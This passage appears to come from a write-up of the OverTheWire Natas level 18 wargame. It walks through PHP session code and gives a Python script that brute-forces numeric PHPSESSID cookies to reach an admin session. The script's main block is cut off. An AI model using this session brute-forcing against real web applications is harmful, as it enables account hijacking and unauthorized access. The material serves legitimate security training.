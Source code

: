
In the case it's true, a function that prints the credentials is called, printing our password:

```
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

If *%my_session* is not true, it  will look to the HTTP request and search for username and password. If it finds them, it creates a session id:

```
function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }
    return 0;
```






So, in summary, we have a function that starts the session, first checking if the session id is in the cookie and if this session id is a number. If true, it checks if it's a fresh session. Then, it checks if the word *admin* is in [SESSION_ID]. If not, it invalidates the session.

[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID

If the SESSION_ID is the admin session ID, the password for the next is shown.

After that, it calls PHP's [session_starts()].

The session ID is given by the variable *PHPSESSID*, and that's what we are going to brute force to get our password.






The variable [$_REQUEST]  is an  array that by default contains the contents of *$_GET*, *$_POST* and *$_COOKIE*.

[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php

[session_starts()]: http://php.net/manual/en/function.session-start.php

#### Crafting the attack:

We write the following script:

```python
import requests

def brute_force_password(AUTH, URL, PAYLOAD, MAXID):
    for i in range(MAXID):
        HEADER ={'Cookie':'PHPSESSID=' + str(i)}
        r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
        if "You are an admin" in r.text:
            print(r.text)
            print(r.url)
            print(str(i))

if __name__ == '__main__':
    AUTH = ('natas18', '*************************')
    URL = 'http://natas18.natas.labs.overthewire.org/index.php?'

```

[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits